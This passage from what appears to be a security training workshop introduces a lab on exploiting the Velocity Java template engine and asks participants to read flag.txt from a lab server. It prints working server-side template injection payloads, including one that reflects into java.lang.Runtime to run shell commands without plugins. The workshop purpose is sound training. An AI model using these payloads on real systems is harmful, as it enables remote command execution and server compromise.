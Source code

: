 This service is simulating an email being sent every time you submit the form.

Use the above recipe to leverage the vulnerability.

Can you access to the file `flag.txt` on the server?




## LAB 4: Velocity (Java)
Duration: 00:20:00

![Velocity Template](assets/velocity-big.png)

### Introduction


Velocity is one of the most popular Java template engines. Freemarker is another very popular alternative. Velocity was chosen for this workshop because it is a bit harder to exploit.

### Template syntax basics

Reference: [Official Velocity documentation](https://velocity.apache.org/engine/1.7/user-guide.html)

### Opportunity for exploitation

The original payload found by James Kettles requires the activation of an optional plugin called ClassTool.
```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```

Negative
: In this workshop, the plugin will not be enabled.


Velocity has variable assignment. 

```js
#set( $foo = "bar" )

$foo
```

This pattern is used to access interesting types.
Here is a payload that allow the execution of command without any optional plugin.

```js
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('ls'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```
